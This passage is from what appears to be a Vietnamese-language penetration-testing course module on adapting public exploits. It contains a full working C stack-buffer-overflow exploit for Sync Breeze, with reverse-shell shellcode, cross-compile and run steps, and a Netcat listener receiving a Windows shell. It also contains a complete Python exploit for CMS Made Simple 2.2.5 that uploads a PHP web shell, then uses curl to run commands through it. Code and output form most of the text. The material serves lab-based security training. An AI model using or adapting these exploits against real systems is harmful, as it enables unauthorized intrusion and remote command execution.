"\x34\xdb\x6f\x9d\x7f\x5f\xb4\x5e\x81\x5e\x39\xda\xa5\x70\x87"
"\xe3\xe1\x24\x57\xb2\xbf\x92\x11\x6c\x0e\x4c\xc8\xc3\xd8\x18"
"\x8d\x2f\xdb\x5e\x92\x65\xad\xbe\x23\xd0\xe8\xc1\x8c\xb4\xfc"
"\xba\xf0\x24\x02\x11\xb1\x45\xe1\xb3\xcc\xed\xbc\x56\x6d\x70"
"\x3f\x8d\xb2\x8d\xbc\x27\x4b\x6a\xdc\x42\x4e\x36\x5a\xbf\x22"
"\x27\x0f\xbf\x91\x48\x1a";
```

   ***Listing 13 – Dùng msfvenom để tạo reverse shell payload phù hợp với môi trường của chúng ta***

Sau khi hoàn tất các thay đổi đã nêu, mã exploit của chúng ta giờ trông như sau:

```c
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#define DEFAULT_BUFLEN 512

#include <inttypes.h>
#include <stdio.h>
#include <winsock2.h>
#include <windows.h>

DWORD SendRequest(char *request, int request_size) {
    WSADATA wsa;
    SOCKET s;
    struct sockaddr_in server;
    char recvbuf[DEFAULT_BUFLEN];
    int recvbuflen = DEFAULT_BUFLEN;
    int iResult;

    printf("\n[>] Initialising Winsock...\n");
    if (WSAStartup(MAKEWORD(2, 2), &wsa) != 0)
    {
        printf("[!] Failed. Error Code : %d", WSAGetLastError());
        return 1;
    }

    printf("[>] Initialised.\n");
    if ((s = socket(AF_INET, SOCK_STREAM, 0)) == INVALID_SOCKET)
    {
        printf("[!] Could not create socket : %d", WSAGetLastError());
    }

    printf("[>] Socket created.\n");
    server.sin_addr.s_addr = inet_addr("192.168.50.120");
    server.sin_family = AF_INET;
    server.sin_port = htons(80);

    if (connect(s, (struct sockaddr *)&server, sizeof(server)) < 0)
    {
        puts("[!] Connect error");
        return 1;
    }
    puts("[>] Connected");

    if (send(s, request, request_size, 0) < 0)
    {
        puts("[!] Send failed");
        return 1;
    }
    puts("\n[>] Request sent\n");
    closesocket(s);
    return 0;
}

void EvilRequest() {
    
    char request_one[] = "POST /login HTTP/1.1\r\n"
                        "Host: 192.168.50.120\r\n"
                        "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
                        "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
                        "Accept-Language: en-US,en;q=0.5\r\n"
                        "Referer: http://192.168.50.120/login\r\n"
                        "Connection: close\r\n"
                        "Content-Type: application/x-www-form-urlencoded\r\n"
                        "Content-Length: ";
    char request_two[] = "\r\n\r\nusername=";

    int initial_buffer_size = 780;
    char *padding = malloc(initial_buffer_size);
    memset(padding, 0x41, initial_buffer_size);
    memset(padding + initial_buffer_size - 1, 0x00, 1);
    unsigned char retn[] = "\x83\x0c\x09\x10"; // 0x10090c83
    
    
    unsigned char shellcode[] = 
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" // NOP SLIDE
   "\xdb\xcc\xbe\xa5\xcc\x28\x99\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
   "\x52\x31\x72\x17\x83\xc2\x04\x03\xd7\xdf\xca\x6c\xeb\x08\x88"
   "\x8f\x13\xc9\xed\x06\xf6\xf8\x2d\x7c\x73\xaa\x9d\xf6\xd1\x47"
   "\x55\x5a\xc1\xdc\x1b\x73\xe6\x55\x91\xa5\xc9\x66\x8a\x96\x48"
   "\xe5\xd1\xca\xaa\xd4\x19\x1f\xab\x11\x47\xd2\xf9\xca\x03\x41"
   "\xed\x7f\x59\x5a\x86\xcc\x4f\xda\x7b\x84\x6e\xcb\x2a\x9e\x28"
   "\xcb\xcd\x73\x41\x42\xd5\x90\x6c\x1c\x6e\x62\x1a\x9f\xa6\xba"
   "\xe3\x0c\x87\x72\x16\x4c\xc0\xb5\xc9\x3b\x38\xc6\x74\x3c\xff"
   "\xb4\xa2\xc9\x1b\x1e\x20\x69\xc7\x9e\xe5\xec\x8c\xad\x42\x7a"
   "\xca\xb1\x55\xaf\x61\xcd\xde\x4e\xa5\x47\xa4\x74\x61\x03\x7e"
   "\x14\x30\xe9\xd1\x29\x22\x52\x8d\x8f\x29\x7f\xda\xbd\x70\xe8"
   "\x2f\x8c\x8a\xe8\x27\x87\xf9\xda\xe8\x33\x95\x56\x60\x9a\x62"
   "\x98\x5b\x5a\xfc\x67\x64\x9b\xd5\xa3\x30\xcb\x4d\x05\x39\x80"
   "\x8d\xaa\xec\x07\xdd\x04\x5f\xe8\x8d\xe4\x0f\x80\xc7\xea\x70"
   "\xb0\xe8\x20\x19\x5b\x13\xa3\xe6\x34\x29\x37\x8f\x46\x4d\x36"
   "\xf4\xce\xab\x52\x1a\x87\x64\xcb\x83\x82\xfe\x6a\x4b\x19\x7b"
   "\xac\xc7\xae\x7c\x63\x20\xda\x6e\x14\xc0\x91\xcc\xb3\xdf\x0f"
   "\x78\x5f\x4d\xd4\x78\x16\x6e\x43\x2f\x7f\x40\x9a\xa5\x6d\xfb"
   "\x34\xdb\x6f\x9d\x7f\x5f\xb4\x5e\x81\x5e\x39\xda\xa5\x70\x87"
   "\xe3\xe1\x24\x57\xb2\xbf\x92\x11\x6c\x0e\x4c\xc8\xc3\xd8\x18"
   "\x8d\x2f\xdb\x5e\x92\x65\xad\xbe\x23\xd0\xe8\xc1\x8c\xb4\xfc"
   "\xba\xf0\x24\x02\x11\xb1\x45\xe1\xb3\xcc\xed\xbc\x56\x6d\x70"
   "\x3f\x8d\xb2\x8d\xbc\x27\x4b\x6a\xdc\x42\x4e\x36\x5a\xbf\x22"
   "\x27\x0f\xbf\x91\x48\x1a";

    char request_three[] = "&password=A";

    int content_length = 9 + strlen(padding) + strlen(retn) + strlen(shellcode) + strlen(request_three);
    char *content_length_string = malloc(15);
    sprintf(content_length_string, "%d", content_length);
    int buffer_length = strlen(request_one) + strlen(content_length_string) + initial_buffer_size + strlen(retn) + strlen(request_two) + strlen(shellcode) + strlen(request_three);

    char *buffer = malloc(buffer_length);
    memset(buffer, 0x00, buffer_length);
    strcpy(buffer, request_one);
    strcat(buffer, content_length_string);
    strcat(buffer, request_two);
    strcat(buffer, padding);
    strcat(buffer, retn);
    strcat(buffer, shellcode);
    strcat(buffer, request_three);

    SendRequest(buffer, strlen(buffer));
}

int main() {

    EvilRequest();
    return 0;
}
```

***Listing 14 – Mã exploit sau khi thay đổi socket information, return address instruction, và payload***

Hãy compile mã exploit bằng mingw-w64 để xem có phát sinh lỗi nào không.

```bash
kali@kali:~/Desktop$ i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32

kali@kali:~/Desktop$ ls -lah 
total 372K
drwxr-xr-x  2 kali kali 4.0K Feb 24 17:14 .
drwxr-xr-x 17 kali kali 4.0K Feb 24 15:42 ..
-rw-r--r--  1 kali kali 4.7K Feb 24 15:46 42341.c
-rwxr-xr-x  1 kali kali 355K Feb 24 17:14 syncbreeze_exploit.exe
```

                            ***Listing 15 – Compile mã exploit đã chỉnh sửa bằng mingw-w64***

Bây giờ khi đã có một exploit được cập nhật và compile sạch (clean-compiling), chúng ta có thể test. Quay lại **Immunity Debugger** (đang attach Sync Breeze) và nhấn **Ctrl+g**, đi tới địa chỉ `JMP ESP` tại `0x10090c83`, sau đó nhấn **@** để đặt breakpoint tại đó.


                                   ***Figure 1: Setting a breakpoint at our JMP ESP address***

Sau khi breakpoint được đặt trong debugger, chúng ta có thể cho ứng dụng chạy bình thường và thử thực thi exploit từ Kali.

Vì binary này được cross-compile để chạy trên Windows, chúng ta không thể đơn giản chạy nó trực tiếp trên Kali. Để chạy Windows binary này, chúng ta cần dùng `wine`, một compatibility layer dùng để chạy ứng dụng Windows trên nhiều hệ điều hành như Linux, BSD, và macOS.

```bash
kali@kali:~/Desktop$ sudo wine syncbreeze_exploit.exe

[>] Initialising Winsock...
[>] Initialised.
[>] Socket created.
[>] Connected

[>] Request sent
```

                                              ***Listing 16 – Chạy Windows exploit bằng wine***

Một cách bất ngờ, chúng ta không hề hit breakpoint. Thay vào đó, ứng dụng crash và thanh ghi **EIP** có vẻ bị ghi đè bởi `0x9010090c`.


  ***Figure 2: EIP is overwritten by our return address instruction address misaligned by one byte***

Bằng cách phân tích cả giá trị đang nằm trong EIP (`0x9010090c`) và buffer gửi tới ứng dụng mục tiêu, chúng ta sẽ nhận thấy offset để ghi đè return address trên stack có vẻ bị lệch 1 byte. Offset sai khiến CPU POP một return address khác từ stack thay vì địa chỉ dự kiến (`0x10090c83`). Chúng ta sẽ xem sự sai lệch này trong phần tiếp theo.

---

## 13.1.5. Thay đổi Overflow Buffer

---

Hãy thử hiểu nguyên nhân offset bị lệch. Khi review phần đầu của padding buffer lớn gồm các ký tự “A”, chúng ta sẽ thấy nó bắt đầu bằng một lời gọi `malloc` với kích thước 780:

```c
int initial_buffer_size = 780;
char *padding = malloc(initial_buffer_size);
```

                                  ***Listing 17 – Cấp phát bộ nhớ cho buffer ban đầu bằng malloc***

Con số này hẳn sẽ quen thuộc. Ở đầu Module, chúng ta đã ghi nhận rằng 780 là offset tính theo byte cần thiết để ghi đè return address trên stack và chiếm quyền kiểm soát thanh ghi EIP.

Hàm `malloc` chỉ cấp phát một khối bộ nhớ dựa trên kích thước được yêu cầu. Buffer này cần được khởi tạo đúng cách, việc này được thực hiện bằng hàm `memset` ngay sau lời gọi `malloc`.

```c
memset(padding, 0x41, initial_buffer_size);
```

                                            ***Listing 18 – Điền buffer ban đầu bằng các ký tự “A”***

Dùng `memset` sẽ lấp đầy vùng bộ nhớ đã cấp phát bằng một giá trị byte cụ thể, trong trường hợp này là `0x41`, giá trị hex biểu diễn ký tự “A” trong ASCII.

Dòng mã tiếp theo trong exploit đặc biệt đáng chú ý. Chúng ta thấy một lời gọi `memset`, đặt byte cuối cùng trong vùng cấp phát thành một NULL byte:

```c
memset(padding + initial_buffer_size - 1, 0x00, 1);
```

      ***Listing 19 – Memset đặt byte cuối thành null-terminator để biến buffer thành một string***

Thoạt nhìn có thể hơi khó hiểu; tuy nhiên, khi tiếp tục đọc mã, chúng ta sẽ đến đoạn tạo final buffer.

```c
char *buffer = malloc(buffer_length);
memset(buffer, 0x00, buffer_length);
strcpy(buffer, request_one);
strcat(buffer, content_length_string);
strcat(buffer, request_two);
strcat(buffer, padding);
strcat(buffer, retn);
strcat(buffer, shellcode);
strcat(buffer, request_three);
```

                                                 ***Listing 20 – Tạo final buffer cho exploit***

Đoạn mã bắt đầu bằng việc cấp phát một khối bộ nhớ cho mảng ký tự buffer bằng `malloc`, sau đó điền toàn bộ mảng bằng NULL byte. Tiếp theo, mã sẽ “lắp ráp” mảng ký tự buffer bằng cách copy nội dung từ các biến khác thông qua nhiều hàm thao tác chuỗi như `strcpy` và `strcat`.

Việc nắm rõ rằng final buffer phải được xây dựng dưới dạng string là cực kỳ quan trọng. Ngôn ngữ C sử dụng **null-terminated string**, nghĩa là các hàm như `strcpy` và `strcat` xác định điểm kết thúc và kích thước của một string bằng cách tìm vị trí xuất hiện đầu tiên của NULL byte trong mảng ký tự đích. Do kích thước cấp phát cho padding buffer ban đầu là 780, khi chúng ta đặt byte cuối thành `0x00`, kết quả là khi nối chuỗi (`strcat`) chúng ta thực tế chỉ nối một string gồm các ký tự “A” ASCII có độ dài **779 byte**. Điều này giải thích vì sao EIP bị ghi đè lệch (misaligned).

Chúng ta có thể sửa nhanh lỗi lệch này bằng cách tăng kích thước cấp phát được yêu cầu bởi biến `initial_buffer_size` thêm 1.

```c
    int initial_buffer_size = 781;
    char *padding = malloc(initial_buffer_size);
    memset(padding, 0x41, initial_buffer_size);
    memset(padding + initial_buffer_size - 1, 0x00, 1);
```

                                    ***Listing 21 – Thay đổi kích thước cấp phát cho padding***

Để test cuối cùng, chúng ta sẽ compile lại mã, dựng một Netcat listener trên port 443 để bắt reverse shell, và sau khi đảm bảo Sync Breeze service đang chạy trên máy mục tiêu, chạy exploit.

```bash
kali@kali:~/Desktop$ i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32

kali@kali:~$ sudo nc -lvp 443
listening on [any] 443 ...
```

                          ***Listing 22 – Compile exploit và thiết lập Netcat listener trên port 443***

Tiếp theo, chúng ta sẽ chạy exploit:

```bash
kali@kali:~/Desktop$ wine syncbreeze_exploit.exe

[>] Initialising Winsock...
[>] Initialised.
[>] Socket created.
[>] Connected

[>] Request sent
```

                                                   ***Listing 23 – Chạy phiên bản cuối của exploit***

Cuối cùng, chúng ta chuyển sang Netcat listener.

```
listening on [any] 443 ...
connect to [10.11.0.4] from (UNKNOWN) [10.11.0.22] 49662
Microsoft Windows [Version 10.0.10240]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

                                            ***Listing 24 – Nhận reverse shell trên máy Kali Linux***

Rất tốt. Chúng ta đã có shell. Ngoài ra, exploit này giờ không còn yêu cầu phải có một Windows-based attack platform khi tác chiến thực tế, vì chúng ta có thể chạy nó trực tiếp từ Kali.

---

# 13.2. Sửa Web Exploit

---

Learning Unit này bao gồm các Learning Objective sau:

- Sửa các exploit web application
- Troubleshoot các vấn đề thường gặp khi khai thác web application

Các lỗ hổng web application thường **không dẫn đến memory corruption**. Do không bị ảnh hưởng bởi các cơ chế bảo vệ của hệ điều hành như **DEP** và **ASLR**, chúng **dễ dàng được tái sử dụng (re-purpose)** hơn đáng kể. Tuy nhiên, như chúng ta đã học trong các Module trước, các lỗ hổng web application thường có thể dẫn đến **rò rỉ thông tin database** hoặc thậm chí **chiếm toàn quyền kiểm soát hệ thống nền**.

---

## 13.2.1. Các lưu ý và Tổng quan

---

Ngay cả khi chúng ta có thể **không phải xử lý payload được mã hóa dạng hex** trong các web exploit, việc **đọc kỹ mã nguồn** và **hiểu rõ những yếu tố cần cân nhắc trong quá trình chỉnh sửa** vẫn là điều hết sức quan trọng.

Khi sửa đổi web exploit, có một số câu hỏi then chốt mà chúng ta **thường phải tự đặt ra** khi tiếp cận mã exploit:

- Exploit có khởi tạo kết nối **HTTP hay HTTPS** không?
- Exploit có truy cập vào **một path hoặc route cụ thể** của web application không?
- Exploit có khai thác **lỗ hổng pre-authentication** hay không?
- Nếu không, exploit **authenticate vào web application bằng cách nào**?
- Các request **GET hoặc POST** được xây dựng ra sao để kích hoạt và khai thác lỗ hổng? Có **HTTP method** đặc biệt nào được sử dụng không?
- Exploit có phụ thuộc vào **các thiết lập mặc định của ứng dụng** (ví dụ: web path của ứng dụng) mà có thể đã bị thay đổi sau khi cài đặt hay không?
- Các yếu tố bất thường như **self-signed certificate** có làm gián đoạn exploit hay không?

Chúng ta cũng cần ghi nhớ rằng các **public web application exploit** thường **không tính đến các cơ chế bảo vệ bổ sung** như file `.htaccess` hoặc **Web Application Firewall (WAF)**. Nguyên nhân chính là vì tác giả exploit **không thể biết trước** toàn bộ các lớp bảo vệ này trong quá trình phát triển exploit, do đó chúng được xem là **ngoài phạm vi (out of scope)**.

---

## 13.2.2. Chọn Vulnerability và Sửa Mã

---

Hãy xét kịch bản sau: trong quá trình assessment, chúng ta phát hiện một Linux host có apache2 server bị lộ ra ngoài. Sau khi enumerate web server, chúng ta phát hiện một bản cài đặt **CMS Made Simple phiên bản 2.2.5** đang lắng nghe trên **TCP port 443**. Phiên bản này có vẻ bị ảnh hưởng bởi **remote code execution** với một public exploit có sẵn trên Exploit-DB.

Mặc dù vulnerability này là **post-authentication**, chúng ta đã tìm được thông tin đăng nhập hợp lệ của ứng dụng (**admin / HUYfaw763**) trên một máy khác trong quá trình enumeration.

Kế hoạch của chúng ta là điều chỉnh public exploit dạng generic cho đúng mục tiêu, giành được remote code execution, và cuối cùng upload một **web shell** để giành quyền kiểm soát server.

Khi kiểm tra mã, chúng ta nhận ra biến `base_url` cần được thay đổi để khớp với môi trường của chúng ta.

```python
base_url = "http://192.168.1.10/cmsms/admin"
```

                               ***Listing 25 – Biến base_url như được định nghĩa trong exploit gốc***

Hãy sửa địa chỉ IP và protocol sang HTTPS để phản ánh mục tiêu Debian VM của chúng ta:

```python
base_url = "https://192.168.50.120/admin"
```

                  ***Listing 26 – Biến base_url được cập nhật để khớp với trường hợp của chúng ta***

Chúng ta cũng nhận thấy rằng, khi duyệt website mục tiêu, trình duyệt hiển thị lỗi **SEC_ERROR_UNKNOWN_ISSUER**. Lỗi này cho biết certificate trên remote host không thể được validate. Chúng ta cần tính đến điều này trong mã exploit.

Cụ thể, exploit đang dùng thư viện Python `requests` để giao tiếp với mục tiêu. Mã thực hiện ba POST request tại các dòng 34, 55, và 80:

```python
...
    response  = requests.post(url, data=data, allow_redirects=False)
...
    response = requests.post(url, data=data, files=txt, cookies=cookies)
...
    response = requests.post(url, data=data, cookies=cookies, allow_redirects=False)
...
```

                     ***Listing 27 – Cả ba POST request như được định nghĩa trong exploit gốc***

Hơn nữa, tài liệu chính thức cho biết SSL certificate sẽ bị bỏ qua nếu chúng ta đặt tham số `verify` là `"False"`.

```python
...
    response  = requests.post(url, data=data, allow_redirects=False, verify=False)
...
    response = requests.post(url, data=data, files=txt, cookies=cookies, verify=False)
...
    response = requests.post(url, data=data, cookies=cookies, allow_redirects=False, verify=False)
...
```

                      ***Listing 28 – Các POST request đã chỉnh sửa để bỏ qua SSL verification***

Cuối cùng, chúng ta cũng cần thay đổi credential được dùng trong exploit gốc để khớp với thông tin đã tìm thấy trong quá trình enumeration. Các giá trị này được định nghĩa trong biến `username` và `password` tại dòng 15 và 16 tương ứng.

```python
username = "admin"
password = "password"
```

                  ***Listing 29 – Biến username và password như được định nghĩa trong exploit gốc***

Chúng ta có thể dễ dàng thay thế các credential này.

```python
username = "admin"
password = "HUYfaw763"
```

     ***Listing 30 – Biến username và password được cập nhật để khớp với kịch bản của chúng ta***

Trong trường hợp này, chúng ta không cần cập nhật payload đơn giản vì nó chỉ thực thi các system command được truyền dưới dạng clear text trong GET request.

Sau khi hoàn tất tất cả chỉnh sửa, exploit cuối cùng sẽ trông như sau:

```python
# Exploit Title: CMS Made Simple 2.2.5 authenticated Remote Code Execution
# Date: 3rd of July, 2018
# Exploit Author: Mustafa Hasan (@strukt93)
# Vendor Homepage: http://www.cmsmadesimple.org/
# Software Link: http://www.cmsmadesimple.org/downloads/cmsms/
# Version: 2.2.5
# CVE: CVE-2018-1000094

import requests
import base64

base_url = "https://10.11.0.128/admin"
upload_dir = "/uploads"
upload_url = base_url.split('/admin')[0] + upload_dir
username = "admin"
password = "HUYfaw763"

csrf_param = "__c"
txt_filename = 'cmsmsrce.txt'
php_filename = 'shell.php'
payload = "<?php system($_GET['cmd']);?>"

def parse_csrf_token(location):
    return location.split(csrf_param + "=")[1]

def authenticate():
    page = "/login.php"
    url = base_url + page
    data = {
        "username": username,
        "password": password,
        "loginsubmit": "Submit"
    }
    response  = requests.post(url, data=data, allow_redirects=False, verify=False)
    status_code = response.status_code
    if status_code == 302:
        print "[+] Authenticated successfully with the supplied credentials"
        return response.cookies, parse_csrf_token(response.headers['Location'])
    print "[-] Authentication failed"
    return None, None

def upload_txt(cookies, csrf_token):
    mact = "FileManager,m1_,upload,0"
    page = "/moduleinterface.php"
    url = base_url + page
    data = {
        "mact": mact,
        csrf_param: csrf_token,
        "disable_buffer": 1
    }
    txt = {
        'm1_files[]': (txt_filename, payload)
    }
    print "[*] Attempting to upload {}...".format(txt_filename)
    response = requests.post(url, data=data, files=txt, cookies=cookies, verify=False)
    status_code = response.status_code
    if status_code == 200:
        print "[+] Successfully uploaded {}".format(txt_filename)
        return True
    print "[-] An error occurred while uploading {}".format(txt_filename)
    return None

def copy_to_php(cookies, csrf_token):
    mact = "FileManager,m1_,fileaction,0"
    page = "/moduleinterface.php"
    url = base_url + page
    b64 = base64.b64encode(txt_filename)
    serialized = 'a:1:{{i:0;s:{}:"{}";}}'.format(len(b64), b64)
    data = {
        "mact": mact,
        csrf_param: csrf_token,
        "m1_fileactioncopy": "",
        "m1_path": upload_dir,
        "m1_selall": serialized,
        "m1_destdir": "/",
        "m1_destname": php_filename,
        "m1_submit": "Copy"
    }
    print "[*] Attempting to copy {} to {}...".format(txt_filename, php_filename)
    response = requests.post(url, data=data, cookies=cookies, allow_redirects=False, verify=False)
    status_code = response.status_code
    if status_code == 302:
        if response.headers['Location'].endswith('copysuccess'):
            print "[+] File copied successfully"
            return True
    print "[-] An error occurred while copying, maybe {} already exists".format(php_filename)
    return None    

def quit():
    print "[-] Exploit failed"
    exit()

def run():
    cookies,csrf_token = authenticate()
    if not cookies:
        quit()
    if not upload_txt(cookies, csrf_token):
        quit()
    if not copy_to_php(cookies, csrf_token):
        quit()
    print "[+] Exploit succeeded, shell can be found at: {}".format(upload_url + '/' + php_filename)

run()
```

      ***Listing 31 – Exploit đã chỉnh sửa, chứa các thay đổi cần thiết cho trường hợp của chúng ta***

Chạy exploit tạo ra một lỗi không mong đợi.

```bash
kali@kali:~$ python2 44976_modified.py
/usr/lib/python2.7/dist-packages/urllib3/connectionpool.py:849: InsecureRequestWarning: Unverified HTTPS request is being made. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings
  InsecureRequestWarning)
[+] Authenticated successfully with the supplied credentials
Traceback (most recent call last):
  File "44976_modified.py", line 103, in <module>
    run()
  File "44976_modified.py", line 94, in run
    cookies,csrf_token = authenticate()
  File "44976_modified.py", line 38, in authenticate
    return response.cookies, parse_csrf_token(response.headers['Location'])
  File "44976_modified.py", line 24, in parse_csrf_token
    return location.split(csrf_param + "=")[1]
IndexError: list index out of range
```

                   ***Listing 32 – Lỗi Python xuất hiện khi chạy phiên bản exploit đã chỉnh sửa***

Một exception đã được kích hoạt trong quá trình thực thi hàm `parse_csrf_token` tại dòng 24 của mã. Lỗi cho biết mã đã cố truy cập một phần tử không tồn tại của một Python list thông qua phần tử thứ hai ( `location.split(csrf_param + "=")[1]` ).

Chúng ta sẽ thảo luận cách vượt qua vấn đề này trong phần tiếp theo.

---

## 13.2.3. Troubleshooting Lỗi “index out of range”

---

Như chúng ta đã thấy ở phần trước, Python interpreter đã ném ra một lỗi liên quan đến dòng 24 của exploit đã được chỉnh sửa.

Khi kiểm tra dòng này, chúng ta sẽ nhận thấy nó sử dụng phương thức `split` để cắt chuỗi được lưu trong tham số `location` truyền vào hàm `parse_csrf_token`. Tài liệu Python cho `split` cho biết phương thức này cắt chuỗi đầu vào bằng một separator tùy chọn được truyền vào làm tham số đầu tiên. Các phần chuỗi sau khi cắt mà `split` trả về sẽ được lưu trong một Python list object và có thể được truy cập bằng index.

```bash
kali@kali:~$ python
...
>>> mystr = "Kali*-*Linux*-*Rocks"

>>> result = mystr.split("*-*")

>>> result
['Kali', 'Linux', 'Rocks']

>>> result[1]
'Linux'
```

                                           ***Listing 33 – Phương thức split của Python string***

Trong mã exploit của chúng ta, separator của chuỗi được định nghĩa là biến `csrf_param` (“__c”) kèm theo dấu bằng.

```python
csrf_param = "__c"
txt_filename = 'cmsmsrce.txt'
php_filename = 'shell.php'
payload = "<?php system($_GET['cmd']);?>"

def parse_csrf_token(location):
    return location.split(csrf_param + "=")[1]
```

                                                 ***Listing 34 – Hiểu đoạn mã ở dòng 24***

Để hiểu rõ hơn về lỗi `IndexError`, chúng ta có thể thêm một câu lệnh `print` trong hàm `parse_csrf_token` trước lệnh `return`:

```python
csrf_param = "__c"
txt_filename = 'cmsmsrce.txt'
php_filename = 'shell.php'
payload = "<?php system($_GET['cmd']);?>"

def parse_csrf_token(location):
    print "[+] String that is being split: " + location
    return location.split(csrf_param + "=")[1]
```

                ***Listing 35 – Thêm print statement để xem chuỗi nơi phương thức split được gọi***

Lúc này exploit sẽ hiển thị toàn bộ chuỗi trước khi phương thức `split` được gọi.

```bash
kali@kali:~$ python2 44976_modified.py
/usr/lib/python2.7/dist-packages/urllib3/connectionpool.py:849: InsecureRequestWarning: Unverified HTTPS request is being made. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings
  InsecureRequestWarning)
[+] Authenticated successfully with the supplied credentials
[+] String that is being split:
https://10.11.0.128/admin?_sk_=f2946ad9afceb247864
Traceback (most recent call last):
  File "44976_modified.py", line 104, in <module>
    run()
  File "44976_modified.py", line 95, in run
    cookies,csrf_token = authenticate()
  File "44976_modified.py", line 39, in authenticate
    return response.cookies, parse_csrf_token(response.headers['Location'])
  File "44976_modified.py", line 25, in parse_csrf_token
    return location.split(csrf_param + "=")[1]
IndexError: list index out of range
```

***Listing 36 – Kiểm tra output của print và nhận thấy chuỗi được định nghĩa trong biến csrf_param không xuất hiện***

Trong khi mã exploit kỳ vọng chuỗi đầu vào sẽ chứa “__c” (được định nghĩa trong biến `csrf_param`) như thể hiện ở Listing 35, thì chúng ta lại nhận được “*sk*” từ web application.

Tại thời điểm này, chúng ta chưa hiểu hoàn toàn vì sao điều này xảy ra. Có thể là do version mismatch giữa phần mềm của tác giả exploit và môi trường của chúng ta, hoặc do mismatch về cấu hình CMS. Dù thế nào đi nữa, chúng ta biết rằng exploit development không bao giờ là một quá trình thẳng băng.

Tiếp theo, hãy thử thay đổi biến `csrf_param` để khớp với phản hồi của CMS và xem exploit có hoạt động không.

```python
csrf_param = "_sk_"
txt_filename = 'cmsmsrce.txt'
php_filename = 'shell.php'
payload = "<?php system($_GET['cmd']);?>"
```

                                                      ***Listing 37 – Thay đổi biến csrf_param***

Bây giờ, chúng ta sẽ thực thi exploit đã chỉnh sửa:

```bash
kali@kali:~$ python2 44976_modified.py
/usr/lib/python2.7/dist-packages/urllib3/connectionpool.py:849: InsecureRequestWarning: Unverified HTTPS request is being made. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings
  InsecureRequestWarning)
[+] Authenticated successfully with the supplied credentials
[+] String that is being split: https://192.168.50.45/admin?_sk_=bdc51a781fe6edcc126
[*] Attempting to upload cmsmsrce.txt...
...
[+] Successfully uploaded cmsmsrce.txt
[*] Attempting to copy cmsmsrce.txt to shell.php...
...
[+] File copied successfully
[+] Exploit succeeded, shell can be found at: https://192.168.50.45/uploads/shell.php
```

                                                    ***Listing 38 – Output khai thác thành công***

Lỗi không còn xuất hiện nữa và chúng ta nhận được thông báo rằng exploit đã thành công. Mặc dù chúng ta không hiểu rõ vì sao cần phải thay đổi biến `csrf_param`, kịch bản này đã cho thấy cách thích nghi với các tình huống không mong đợi - một kỹ năng mà các penetration tester giỏi làm rất tốt.

Bây giờ chúng ta có thể xác thực exploit bằng cách truy cập PHP shell với một công cụ như `curl` và cung cấp một system command làm payload:

```bash
kali@kali:~$ curl -k https://192.168.50.45/uploads/shell.php?cmd=whoami
www-data
```

***Listing 39 – Xác minh exploit có thành công hay không bằng cách thử thực thi whoami thông qua php shell đã upload***

Tuyệt. Exploit đã thành công, và bây giờ chúng ta đã có một web shell.

---

# 13.3. Tổng kết

---

Trong Module này, chúng ta đã bao quát các thành phần chính của một **plain stack-based buffer overflow**, yêu cầu **chỉnh sửa đáng kể** để phù hợp với môi trường mục tiêu. Sau đó, chúng ta đã **cross-compile** mã nguồn để có thể chạy exploit trên **Kali attack platform**.

Chúng ta cũng đã **sửa đổi một web exploit** nhằm minh họa cách các loại exploit này có thể được **tái sử dụng (re-purpose)** cho một môi trường mục tiêu khác.

Các kịch bản này cho thấy **những giải pháp cho các trở ngại phổ biến** thường gặp khi làm việc với **public exploit** trong quá trình thực hiện một penetration testing engagement.